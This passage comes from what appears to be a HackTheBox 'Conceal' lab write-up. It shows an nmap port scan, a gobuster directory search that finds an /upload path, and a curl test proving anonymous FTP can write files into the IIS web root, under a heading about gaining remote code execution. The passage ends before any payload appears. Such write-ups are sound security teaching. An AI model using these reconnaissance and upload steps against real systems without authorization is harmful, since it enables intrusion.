 ### 2nd portscan

After we're connected, we can run a portscan again and find additional ports.

```
# nmap -sT -F 10.10.10.116
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-06 22:36 EST
Nmap scan report for conceal.htb (10.10.10.116)
Host is up (0.032s latency).
Not shown: 95 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```


### Gaining RCE through the IIS webserver

The IIS server has a default page configured.

![](/assets/images/htb-writeup-conceal/iis_generic.png)

Let's use `gobuster` to find interesting stuff on the server:

```
# gobuster -q -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.116
/upload (Status: 301)
```

Ok, so there's an upload page and it seems that we can upload files to the IIS root directory with the FTP anonymous account:

```
# echo "This is a test" > test.txt
# curl -T test.txt ftp://10.10.10.116
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    15    0     0  100    15      0     53 --:--:-- --:--:-- --:--:--    53
# curl http://10.10.10.116/upload/test.txt
This is a test
```
